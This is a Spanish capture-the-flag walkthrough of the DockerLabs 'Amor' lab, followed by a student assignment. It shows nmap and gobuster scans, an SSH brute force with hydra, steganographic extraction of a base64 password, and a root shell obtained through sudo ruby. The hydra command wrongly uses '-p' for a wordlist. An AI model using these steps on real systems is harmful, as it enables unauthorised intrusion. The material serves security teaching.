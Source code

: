 ## DOCKERLABS




# Amor | Laboratorios

## Fácil

22/08/2024

Dockerlabs.es

## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

```bash
ifconfig -a
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

Ya con la búsqueda en la red resulta, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo, pero adelanto... sin éxito, no hay amor en el sitio web...

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios.

## Conexión SSHHydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -p /home/kali/Desktop/rockyou.txt ssh://172.17.0.2
```

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo más fácil, levanto un servicio web con el comando:

```bash
python3 -m http.server
```

La imagen descargada es la siguiente:



## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Probamos la contraseña con la usuaria carlota, lo que nos devuelve que la contraseña no corresponde.

Revisamos los otros usuarios y decidimos probar con la cuenta **oscar**:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```

# Taller Individual.

1. Raelizar una investigación de cada una de las herramientas empleadas mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas ( si aplica) de variantes del comando.